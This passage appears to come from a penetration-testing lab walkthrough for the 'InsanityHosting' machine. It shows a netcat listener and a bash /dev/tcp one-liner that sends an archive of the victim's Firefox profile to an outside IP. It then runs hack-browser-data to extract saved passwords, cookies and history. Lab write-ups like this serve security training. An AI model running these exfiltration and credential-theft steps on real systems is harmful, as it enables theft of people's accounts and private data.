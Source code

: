 ```bash
26511123  468 -rw-r--r--   1 elliot   elliot     479029 Aug 16  2020 .mozilla/firefox/esmhp32w.default-default/extensions/langpack-ach@firefox.mozilla.org.xpi
26511124  532 -rw-r--r--   1 elliot   elliot     544098 Aug 16  2020 .mozilla/firefox/esmhp32w.default-default/extensions/langpack-hy-AM@firefox.mozilla.org.xpi
[...]
```

Setup **netcat** listener to receive file

```bash
┌──(bravosec㉿fsociety)-[~/Offsec/pg/play/InsanityHosting]
└─$ nc -lvnp 9000 > data.tar.gz
listening on [any] 9000 ...
```

Zip `~/.mozilla/` then transfer to my kali machine

```bash
[elliot@insanityhosting ~]$ tar czf data.tar.gz .mozilla/
[elliot@insanityhosting ~]$ bash -c 'cat data.tar.gz > /dev/tcp/192.168.45.248/9000'
```

```bash
┌──(bravosec㉿fsociety)-[~/Offsec/pg/play/InsanityHosting]
└─$ mkdir -p data && tar -xzf data.tar.gz -C data
```

Use **hack-browser-data** to extract sensitive data such as `passwords, cookies, session/local storage, history, bookmarks`

```bash
┌──(bravosec㉿fsociety)-[~/Offsec/pg/play/InsanityHosting]
└─$ /opt/sectools/privesc/hack-browser-data-linux-amd64 -f json -dir hack-browser-data-results -p data/.mozilla
[NOTICE] [browser.go:47,pickChromium] find browser Vivaldi failed, profile folder does not exist
[NOTICE] [browser.go:47,pickChromium] find browser Brave failed, profile folder does not exist
[NOTICE] [browser.go:47,pickChromium] find browser Chrome failed, profile folder does not exist
[NOTICE] [browser.go:47,pickChromium] find browser Microsoft Edge failed, profile folder does not exist
[NOTICE] [browser.go:56,pickChromium] find browser chromium_default success
[NOTICE] [browser.go:47,pickChromium] find browser Chrome Beta failed, profile folder does not exist
[NOTICE] [browser.go:47,pickChromium] find browser Opera failed, profile folder does not exist
[NOTICE] [browser.go:98,pickFirefox] find browser firefox firefox-esmhp32w.default-default success
[ERROR] [browsingdata.go:43,Recovery] parse extension error cannot find extensions in settings
[NOTICE] [browsingdata.go:73,Output] output to file hack-browser-data-results/chromium_default_cookie.json success
[NOTICE] [browsingdata.go:73,Output] output to file hack-browser-data-results/chromium_default_localstorage.json success
[NOTICE] [browsingdata.go:73,Output] output to file hack-browser-data-results/chromium_default_bookmark.json success
[NOTICE] [browsingdata.go:73,Output] output to file hack-browser-data-results/chromium_default_sessionstorage.json success
[NOTICE] [browsingdata.go:73,Output] output to file hack-browser-data-results/chromium_default_history.json success
[NOTICE] [browsingdata.go:73,Output] output to file hack-browser-data-results/firefox_esmhp32w_default_default_password.json success
[NOTICE] [browsingdata.go:73,Output] output to file hack-browser-data-results/firefox_esmhp32w_default_default_bookmark.json success
[NOTICE] [browsingdata.go:73,Output] output to file hack-browser-data-results/firefox_esmhp32w_default_default_history.json success
[NOTICE] [browsingdata.go:73,Output] output to file hack-browser-data-results/firefox_esmhp32w_default_default_localstorage.json success
[NOTICE] [browsingdata.go:73,Output] output to file hack-browser-data-results/firefox_esmhp32w_default_default_cookie.json success
[NOTICE] [browsingdata.go:73,Output] output to file hack-browser-data-results/firefox_esmhp32w_default_default_extension.json success
```